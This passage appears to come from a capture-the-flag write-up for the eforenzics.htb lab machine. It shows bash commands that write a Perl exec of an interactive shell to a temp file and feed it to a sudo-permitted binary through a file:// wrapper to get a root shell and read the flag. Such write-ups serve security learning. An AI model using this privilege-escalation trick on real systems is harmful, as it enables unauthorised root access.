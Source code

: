 ```bash
# smorton@eforenzics.htb via SSH
f=$(mktemp) # this file will be executed as perl code
echo 'exec("bash -i -p");' > $f # Just spawn an interactive shell
sudo /usr/bin/binary "file://$f" "lDnxUysaQn" # Use the file:// wrapper
```

This sequence of commands gets us an interactive root shell, where we can then read the final flag at `/root/root.txt`{:.filepath}.
